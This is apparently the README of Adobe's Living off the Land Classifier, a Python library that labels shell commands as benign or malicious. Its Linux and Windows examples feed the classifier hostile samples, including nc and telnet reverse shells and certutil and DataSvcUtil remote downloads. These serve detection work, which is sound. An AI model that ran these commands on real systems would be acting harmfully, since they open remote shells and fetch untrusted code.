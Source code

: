 # Living of the Land Classifier

This repository contains the source code and pre-trained models for the Living of the Land Classifier, designed by the Security Intelligence (SI) Team of the Security Coordination Center (SCC) @ Adobe.

## Quick start guide 

If you have experience with python and are eager to get started, check the [Quick start Jupyter Notebook](examples/01_quick_start.ipynb), instead of this documentation.

To get the library up and running in no time, use the following tutorial. If you want to build you own model, please refer to the ["Advanced usage and documentation"](#advanced-usage-and-documentation) section (below).


### Prerequisites

Before you proceed, make sure your system meets the following requirements:

* **Python 3.7+** installed and running on your system
* **PIP** package installer
* We recommend using a **virtual environment**. See the [official documentation](https://docs.python.org/3/library/venv.html) for details

### Quick installation

The easiest way to get LOL running is to use the `pip`:

You can use the following command directly on your system or in the virtual environment (recommended):

```bash
$ pip install lolc
```

To test the installation you can use the following scripts or `ipython` commands, which are also in the [Quick start Jupyter Notebook](examples/01_quick_start.ipynb):

#### LINUX

```python
from lol.api import LOLC, PlatformType
lolc=LOLC(PlatformType.LINUX) # allowed parameters are PlatformType.LINUX and PlatformType.WINDOWS
commands=['nc -nlvp 1234 & nc -e /bin/bash 10.20.30.40 4321',
          'iptables -t nat -L -n',
          'telnet 10.20.30.40 5000 | /bin/sh | 10.20.30.50 5001']
classification, tags = lolc(commands)
for command, status, tag in zip (commands, classification, tags):
    print(command)
    print(status)
    print(tag)
    print("\n")
```

The output should be:

```text
nc -nlvp 1234 & nc -e /bin/bash 10.20.30.40 4321
BAD
IP_PRIVATE PATH_/BIN/BASH COMMAND_NC KEYWORD_-NLVP KEYWORD_-E nc_listener_to_shell LOOKS_LIKE_KNOWN_LOL

iptables -t nat -L -n
GOOD
COMMAND_IPTABLES KEYWORD_-T KEYWORD_-L KEYWORD_-N iptables_list

telnet 10.20.30.40 5000 | /bin/sh | 10.20.30.50 5001
BAD
IP_PRIVATE PATH_/BIN/SH COMMAND_TELNET telnet_sh LOOKS_LIKE_KNOWN_LOL
```

#### WINDOWS

```python
from lol.api import LOLC, PlatformType
lolc=LOLC(PlatformType.WINDOWS) # allowed parameters are PlatformType.LINUX and PlatformType.WINDOWS
commands=['certutil.exe -urlcache -split -f https://raw.githubusercontent.com/Moriarty2016/git/master/test.ps1 c:\\temp:ttt',
          'explorer.exe c:\\temp',
          'DataSvcUtil /out:C:\\Windows\\System32\\calc.exe /uri:https://11.11.11.11/xxxxxxxxx?encodedfile']
classification, tags = lolc(commands)
for command, status, tag in zip (commands, classification, tags):
    print(command)
    print(status)
    print(tag)
    print("\n")
```

The output should be:

```text
certutil.exe -urlcache -split -f https://raw.githubusercontent.com/Moriarty2016/git/master/test.ps1 c:\temp:ttt
BAD
COMMAND_CERTUTIL.EXE KEYWORD_dash_urlcache KEYWORD_dash_f KEYWORD_http certutil_downloader powershell_file

explorer.exe c:\temp
NEUTRAL
# this line is empty

DataSvcUtil /out:C:\Windows\System32\calc.exe /uri:https://11.11.11.11/xxxxxxxxx?encodedfile
BAD
IP_PUBLIC COMMAND_DATASVCUTIL DataSvcUtil_http KEYWORD_http
```

## Advanced usage and documentation

This documentation is still under development. We will provide complete examples accompanied by Jupyter Notebooks.

## Installation via GitHub (for advanced usage)
```bash
git clone git@github.com:adobe/libLOL.git
cd libLOL
virtualenv -p `which python3` venv
source venv/bin/activate
pip3 install -r requirements.txt
```

## Citing

If you are using Living off the Land in any academic work, make sure to cite our [paper](https://github.com/adobe/libLOL/raw/master/examples/iotbds_paper.pdf):

**APA**

Boros, T., Cotaie, A., Stan, A., Vikramjeet, K., Malik, V., & Davidson, J. (2022). Machine Learning and Feature Engineering for Detecting Living off the Land Attacks. 8th International Conference on Internet of Things, Big Data and Security.

**Chicago**

Boros, Tiberiu, Andrei Cotaie, Antrei Stan, Kumar Vikramjeet, Vivek Malik, Joseph Davidson. ‘Machine Learning and Feature Engineering for Detecting Living off the Land Attacks’. 8th International Conference on Internet of Things, Big Data and Security, 2022.

**BibTeX**

```
 @ARTICLE {borosiotbds2022,
    author  = "Boros,  Tiberiu and Cotaie, Andrei and Stan, Antrei and Vikramjeet, Kumar and Malik, Vivek and Davidson, Joseph",
    title   = "Machine Learning and Feature Engineering for Detecting Living off the Land Attacks",
    journal = "8th International Conference on Internet of Things, Big Data and Security",
    year    = "2022"
}
```


